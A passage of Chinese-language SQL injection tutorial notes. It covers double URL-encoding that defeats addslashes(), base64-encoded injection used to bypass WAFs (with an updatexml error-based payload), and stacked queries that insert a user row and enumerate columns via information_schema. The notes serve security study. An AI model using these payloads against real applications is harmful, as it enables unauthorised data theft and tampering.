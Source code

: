 ```
* 使用过滤函数**addslashes()**时，特殊符号前的**反斜杠**转义字符会被**urldecode()等函数再一次解码**，去掉转义字符，导致转移失败

| 用户输入  | php解析 | addslashes()编码 | urldecode()解析 | 最终输入 | 结果       |
| --------- | ------- | ---------------- | --------------- | -------- | ---------- |
| id=1%27   | id=1'   | id=1`\'`         | （没有该函数）  | id=1`\'` | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | （没有该函数）  | id=1%27  | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | id=1'           | id=1'    | 注入成功！ |



### 4. Base64注入

#### (1). 概述

* Base64是基于64个可打印字符来表示二进制数据的方法，可打印字符包括**A-Z，a-z，0-9，+，/**
* Base64把**不可见字符全部编码为可见字符**，**大大降低传输时出现错误的可能性**

#### (2). 原理

* 针对传递的参数被base64**加密后的注入点进行注入**，常用于**绕过一些WAF**检测

#### (3). 注入方法

1. 先将原本参数**解密**，再结合**之前注入手法**进行设计
2. 语句设计完成后，**重新加密**作为参数进行注入

#### (4). 实例

```
1.原参数
	YWRtaW4n
2.解密后进行语句设计
	admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe
3.base64编码后进行注入
	YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd2U=
```

### 5. 堆叠注入

#### (1). 概述

* 在**分号**结束一个sql语句后，**继续构造**下一条语句，**一起执行**
* **堆叠查询**可以执行**任意语句**，**联合查询**的语句**类型有限**，通常是**查询语句**

#### (2). 原理

* 将**许多语句**通过**分号**叠加在**一起执行**
* **mysqli_multi_query支持**，**mysql_query不支持**
* 可能受到**API**或**数据库引擎不支持**的限制

#### (3). 条件

* web系统通常**只返回一个查询结果**，故在读取数据时使用**联合注入**
* 使用堆叠注入前，须知道数据库的**表名、列名等**

#### (4). 实例

```
//插入数据
1';insert into users(username,password) value('icq','icq') -- qwe
//获取字段名
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),database() -- qwe